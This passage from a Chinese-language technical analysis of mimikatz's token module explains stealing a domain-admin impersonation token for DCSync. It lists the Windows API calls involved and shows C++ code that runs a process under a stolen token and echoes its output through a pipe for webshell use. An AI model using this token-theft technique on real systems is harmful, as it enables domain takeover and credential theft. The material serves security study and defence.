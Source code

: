 假设我们现在在目标机器上发现的域管权限的token

![1628058646372.png](https://i.loli.net/2021/08/19/NQYp4vZw69hXcqG.png)

我们可以指定目标TokenID，或者使用`/domainadmin`来窃取域管的token，执行成功后可以看到当前线程已经拥有域管的模拟令牌：

![1628058723160.png](https://i.loli.net/2021/08/19/YiyUlIBxkadEHM1.png)

然后我们就可以在当前mimikatz上下文中使用域管身份执行操作了，如DCSync

![1628058835502.png](https://i.loli.net/2021/08/19/NWSEOsyRwfVCBam.png)

该功能大致过程如下：

1. 通过`OpenProcess()`获取当前进程/线程的句柄
2. 调用`OpenProcessToken()`打开与进程相关的token句柄
3. 使用`DuplicateTokenEx()`使用目标进程token创建一个新的模拟token
4. 调用`SetThreadToken()`设置当前线程的token为上一步创建的新的模拟token

由于窃取token是Access Token利用的重点，该过程放在本文后面分析

### 4. token::run

该功能是使用指定的token来运行程序，也可以使用`token::elevate`中的几个参数来指定运行程序的token，除此之外还有一个参数：

+ **/process**：指定要运行的程序，默认值为whoami.exe

![1628060372808.png](https://i.loli.net/2021/08/19/PH5IbDUR2x18jg6.png)

其原理前三步与`token::elevate`大致相同，区别在于使用`DuplicateTokenEx()`窃取token后，该功能使用`CreateProcessAsUser()`来使用新的primary token创建一个进程

``` cpp
BOOL CreateProcessAsUserA(
  HANDLE                hToken,
  LPCSTR                lpApplicationName,
  LPSTR                 lpCommandLine,
  LPSECURITY_ATTRIBUTES lpProcessAttributes,
  LPSECURITY_ATTRIBUTES lpThreadAttributes,
  BOOL                  bInheritHandles,
  DWORD                 dwCreationFlags,
  LPVOID                lpEnvironment,
  LPCSTR                lpCurrentDirectory,
  LPSTARTUPINFOA        lpStartupInfo,
  LPPROCESS_INFORMATION lpProcessInformation
);
```

创建进程后，利用匿名管道做进程间通信，将新创建进程的标准输出写入到匿名管道的write端，从管道read端读取数据进行回显（在webshell等非交互场景下很有用）

``` cpp
if (CreatePipe(&hStdoutR, &hStdoutW, &saAttr, 0))
{
	SetHandleInformation(hStdoutR, HANDLE_FLAG_INHERIT, 0);
	si.cb = sizeof(STARTUPINFO);
	si.hStdOutput = hStdoutW;
	si.hStdError = si.hStdOutput;
	si.dwFlags |= STARTF_USESTDHANDLES;

	if (CreateProcessWithTokenW(hDupToken, LOGON_WITH_PROFILE, NULL, cmd, CREATE_NO_WINDOW | CREATE_UNICODE_ENVIRONMENT, NULL, NULL, &si, &pi))
	{
		CloseHandle(si.hStdOutput);
		si.hStdOutput = si.hStdError = NULL;
		while (ReadFile(hStdoutR, resultBuf, sizeof(resultBuf), &dwRead, NULL) && dwRead)
		{
			for (i = 0; i < dwRead; i++)
				wprintf(L"%c", resultBuf[i]);
```